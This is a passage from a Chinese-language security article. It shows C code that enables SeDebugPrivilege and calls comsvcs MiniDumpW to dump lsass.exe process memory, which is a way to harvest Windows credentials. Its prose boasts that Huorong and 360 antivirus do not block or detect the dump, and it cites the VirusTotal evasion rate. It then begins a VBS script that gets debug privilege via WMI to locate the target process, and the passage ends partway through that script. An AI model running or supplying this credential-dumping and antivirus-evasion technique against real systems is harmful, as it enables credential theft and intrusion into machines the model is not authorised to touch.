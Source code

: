 ```
    // 获取SeDebugPrivilege,最后一个参数别设置为NULL
    RtlAdjustPrivilege(20, TRUE, FALSE, &amp;t);
    printf("Invoking COMSVCS!MiniDumpW(\"%ws\")\n", argv[1]);
    //dump lsass.exe

    MiniDumpW(0, 0, argv[1]);



    printf("OK!\n");

    return 0;
`}`
```

[![](https://p5.ssl.qhimg.com/t018fbbd28f9b86958a.png)](https://p5.ssl.qhimg.com/t018fbbd28f9b86958a.png)

火绒和360均未拦截，并且VT免杀率尚可:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fcd173ce9478b2be.png)

并且火绒和360都不会检测到其行为:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019f59d348120b498b.png)

作者还提到了使用VBS来实现首先开启`SeDebugPrivilege`权限，接着执行rundll32的命令

```
Option Explicit

Const SW_HIDE = 0

If (WScript.Arguments.Count &lt;&gt; 1) Then
    WScript.StdOut.WriteLine("procdump - Copyright (c) 2019 odzhan")
    WScript.StdOut.WriteLine("Usage: procdump &lt;process&gt;")
    WScript.Quit
Else
    Dim fso, svc, list, proc, startup, cfg, pid, str, cmd, query, dmp

    ' get process id or name
    pid = WScript.Arguments(0)

    ' connect with debug privilege
    Set fso  = CreateObject("Scripting.FileSystemObject")
    Set svc  = GetObject("WINMGMTS:`{`impersonationLevel=impersonate, (Debug)`}`")

    ' if not a number
    If(Not IsNumeric(pid)) Then
      query = "Name"
    Else
      query = "ProcessId"
    End If

    ' try find it
    Set list = svc.ExecQuery("SELECT * From Win32_Process Where " &amp; _
      query &amp; " = '" &amp; pid &amp; "'")

    If (list.Count = 0) Then
      WScript.StdOut.WriteLine("Can't find active process : " &amp; pid)
      WScript.Quit()
    End If
```